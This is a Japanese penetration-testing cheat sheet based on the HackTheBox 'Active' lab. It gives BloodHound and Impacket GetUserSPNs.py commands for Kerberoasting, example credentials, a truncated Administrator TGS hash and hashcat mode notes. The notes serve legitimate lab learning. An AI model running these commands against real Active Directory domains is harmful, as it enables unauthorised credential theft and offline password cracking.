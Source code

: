 ## Blood Hound from "LOCAL"

```
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -u <domain account> -p <account's password> -ns <target's IP> -d <Domain> -c Al

(e.g.) $ loodhound-python -u svc_tgs -p GPPstillStandingStrong2k18 -ns 10.10.10.100 -d active.htb -c Al
```

## GetUserSPNs.py
指定したドメインアカウント下で動いてるSPN（Service Principal Name）を探す。

- -reqeust: TGS（サービスチケットを発行するサーバ）にリクエストを出す
- -save: TGSを保存する（<username>.ccacheのフォーマット）

```
┌──(kali㉿kali)-[~]
└─$ GetUserSPNs.py -request -dc-ip <target IP> <domain>/<user name> -save -outputfile GetUserSPNs.out

(e.g.) $ GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
  
(c.f. [0xdf hacks stuff](https://0xdf.gitlab.io/2018/12/08/htb-active.html#decrypting-gpp-password))

> I’ll use the GetUserSPNs.py script from Impacket to get a list of service usernames which are associated with normal user accounts. 
It will also get a ticket that I can crack. 
  
***GetUserSPNs.pyの結果Administratorのハッシュが取れた！！！***
  
```
┌──(kali㉿kali)-[~]
└─$ ls
Administrator.acache
GetUserSPNs.out
  
┌──(kali㉿kali)-[~]
└─$ cat GetUserSPNs.out
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$25bac967bc8a16...
```
  
注意）このハッシュは（**krb5tgs**）のhashcatでは「-m 13100」。ハッシュタイプ18200はAS_Repのハッシュ。

  
### GetNPUsers.pyとGetUserSPNs.pyについて
#### GetNPUsers.py -> "AS_REPRoasting"（存在するユーザ名のみでOK）
-> ASREPRoastingとは、ケルベロスチケットを要求する際にpre-authenticationを必要としないようなアカウントに対して、"Does not require Pre-Authentication"なる権限を持っている場合に起こる。

  
#### GetUserSPNs.py -> "TGS_REPRoasting"（存在するユーザ名とそのパスワード（それなりの権限が必要かも））
-> そのドメイン内のアカウントのクリデンシャルを知っていれば、それは普通にTGSに対して要求できるでしょ。で、その**TGS_REPにはSPNのハッシュが含まれている**。これをofflineでクラックすると。（Activeの場合は、AdministratorがSPNに関連してたのがセキュリティホールかな）
